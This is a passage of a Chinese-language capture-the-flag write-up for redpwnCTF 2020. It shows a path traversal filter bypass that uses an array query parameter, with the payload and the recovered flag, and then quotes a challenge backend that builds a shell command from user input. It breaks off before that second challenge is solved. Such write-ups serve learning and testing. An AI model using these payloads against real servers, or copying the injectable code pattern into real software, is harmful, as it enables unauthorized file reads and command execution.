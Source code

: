 数组第一个为单个字符就可以过

看preventTraversal()

```
function preventTraversal(dir)`{`
    if(dir.includes('../'))`{`
        let res = dir.replace('../', '')
        return preventTraversal(res)
    `}`

    //In case people want to test locally on windows
    if(dir.includes('..\'))`{`
        let res = dir.replace('..\', '')
        return preventTraversal(res)
    `}`
    return dir
`}`

```

include 对字符和数组的结果有不同之处

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s1.ax1x.com/2020/07/01/NTKum8.png)

传入数组的话就可以绕过过滤，想办法构造一个`/../../index.js`赋值给path就能读flag。`path.resolve()`，会有一个字符串拼接，如果传入数组，字符串+数组也为字符串。

```
payload: ?path[]=a&amp;path[]=/../../index.js
```

拼接起来是 path=”./public/a,/../../index.js”

flag到手

```
const flag = 'flag`{`tr4v3rsal_Tim3`}`'
```

## web/post-it-notes

> Request smuggling has many meanings. Prove you understand at least one of them at [2020.redpwnc.tf:31957](http://2020.redpwnc.tf:31957/).
Note: There are a lot of time-wasting things about this challenge. Focus on finding the vulnerability on the backend API and figuring out how to exploit it.

给了源码，看到api/server.py中

```
def get_note(nid):
    stdout, stderr = subprocess.Popen(f"cat 'notes/`{`nid`}`' || echo it did not work btw", shell = True, stdout = subprocess.PIPE, stderr = subprocess.PIPE, stdin = subprocess.PIPE).communicate()
    if stderr:
        print(stderr) # lemonthink
        return `{``}`
    return `{`
        'success' : True,
        'title' : nid,
        'contents' : stdout.decode('utf-8', errors = 'ignore')
    `}`
```
